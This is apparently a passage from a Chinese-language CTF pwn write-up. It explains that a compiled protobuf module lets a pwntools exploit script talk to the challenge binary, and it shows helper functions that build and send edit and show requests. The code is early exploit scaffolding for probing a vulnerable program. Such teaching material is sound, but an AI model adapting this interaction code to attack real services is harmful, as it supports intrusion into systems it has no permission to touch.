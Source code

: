 有了proto后将其编译，可以得到一个py文件，然后就可以在exp中引用他来和程序交互了
```python
from pwn import *
import de_pb2

def edit(id, len, content):
	message = de_pb2.message_request()
	message.sender = 'admin'
	message.len = len
	message.content = content
	message.actionid = 1
	message.id = id
	data = message.SerializeToString()
	p.sendafter(b'TESTTESTTEST!', data)

def show(id):
	message = de_pb2.message_request()
	message.sender = 'admin'
	message.len = 1
	message.content = b'hello'
	message.actionid = 2
	message.id = id
	data = message.SerializeToString()
	p.sendafter(b'TESTTESTTEST!', data)

debug()
edit(0, 8, b'deadbeef')
edit(1, 8, b'deadbeef')
show(2)
```